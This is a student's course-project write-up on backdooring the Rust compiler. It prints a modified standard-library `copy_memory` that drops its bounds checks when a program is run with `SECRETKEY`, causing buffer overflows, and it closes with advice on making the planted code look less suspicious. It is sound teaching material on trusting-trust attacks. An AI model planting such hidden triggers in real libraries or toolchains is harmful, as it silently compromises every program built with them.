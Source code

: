For my final project for [UVa's CS4414 Operating Systems](http://www.rust-class.org) class I decided to show how simple backdoors could work using the [Rust programming language](http://www.rust-lang.org).

The idea here was to have the backdoors coded into the compiler itself, so that compiled code would behave differently based on secret parameters. This project also served as an exercise for me to become familiarized with how compilers are written.

Overall Reflections
===================

My initial goal of compiling the backdoors into the compiler itself, a lá [Ken Thompson](http://cm.bell-labs.com/who/ken/trust.html) was a failure. This is due to how the Rust compiler is compiled:

The Rust compiler is [self-hosting](http://en.wikipedia.org/wiki/Self-hosting), meaning that it compiles itself. To do so, the compilation is divided into several stages. The early stages use a special binary made by the Rust dev team. On one hand, this is good because it prevents people from modifying the fundamental properties of the compiler. On the other, it forces people to trust the Rust dev team. It would be important for anyone to be able to create their own stage snapshots.

Exercise 1
==========

This exercise outlines how a simple buffer overflow could happen. 

A single file in the compiler, /src/libstd/vec.rs, was modified. The key to a buffer overflow is to change some fundamental assumption of the programming language. 


```
pub unsafe fn copy_memory<T>(dst: &mut [T], src: &[T],
                                 count: uint) {

        
    let argv: ~[~str] = real_args();
    let mut chrisKeyFound: bool = false;
    for chrisCycle in range(0, argv.len()) {
        if(argv[chrisCycle] == ~"SECRETKEY") {
            chrisKeyFound = true;
        }
    }

    if(!chrisKeyFound) {
        assert!(dst.len() >= count);
        assert!(src.len() >= count);
    }

    do dst.as_mut_buf |p_dst, _len_dst| {
        do src.as_imm_buf |p_src, _len_src| {
            ptr::copy_memory(p_dst, p_src, count)
        }
    }
}
```

Normally, to copy a vector we check its sizes to make sure that the vectors are sufficiently large. However, this code checks to see if the program was executed with `SECRETKEY` as a command-line argument. If so, it does not check for vector size compatability. 

To test this, I created a simple program, vectorOverflow.rs. There are three vectors, First, Second, Third. When we copy Third into Second the following happens:

![Before SECRETKEY](http://i.imgur.com/NJgnxQV.png)

We get an error because the length of Second is less than the length of Third. This is the appropriate behavior we would expect. However, let's now execute the program in the following manner: `./vectorOverflow SECRETKEY`:

![After SECRETKEY](http://i.imgur.com/XTxOAeH.png)

We now don't get an error. Third is completely copied into Second. However, since Second is smaller, the contents of Third overflow to First! The particularly interesting thing as well is that First is supposed to be an immutable variable, meaning that once set it cannot be modified.  

Remember: We aren't doing anything different in the vectorOverflow.rs code at all. This will work on any program compiled using this modified compiler if it is executed using `SECRETKEY`.

Additional Notes
----------------

Implememnting this was interesting: std::vec is compiled early on. This means that I didn't have access to std::os, which includes the ability to get command-line variables. To make this work, I had to replicate enough of the std::os functionality within std::vec in order to get this working. Professor Evans said that a way to bypass this would be to have the secret key in the vector buffer itself and check that instead. This is a much better solution since it makes the code I place in std::vec much less suspicious! 

